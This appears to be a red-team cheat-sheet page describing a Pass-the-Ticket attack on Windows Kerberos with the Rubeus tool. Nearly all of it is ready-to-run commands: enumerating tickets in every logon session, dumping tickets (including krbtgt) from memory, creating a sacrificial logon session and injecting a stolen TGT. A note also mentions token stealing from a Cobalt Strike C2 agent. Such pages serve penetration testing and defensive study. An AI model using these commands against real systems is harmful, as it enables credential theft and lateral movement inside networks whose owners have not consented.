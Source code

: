 # Pass-the-Ticket




## Rubeus

Show Kerberos tickets in all logon sessions if elevated (otherwise it will only show tickets in current logon session):

```
PS > .\Rubeus.exe triage
```

Extract the tickets from memory:

```
PS > .\Rubeus.exe dump [/service:krbtgt] [/luid:0x1337] /nowrap
```

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) and import the TGT into its logon session:

```
PS > .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
PS > .\Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#pass-the-ticket) instead of using `/show` option.
{% endhint %}

{% hint style="success" %}
You can also extract and reuse TGS tickets using this technique.
{% endhint %}
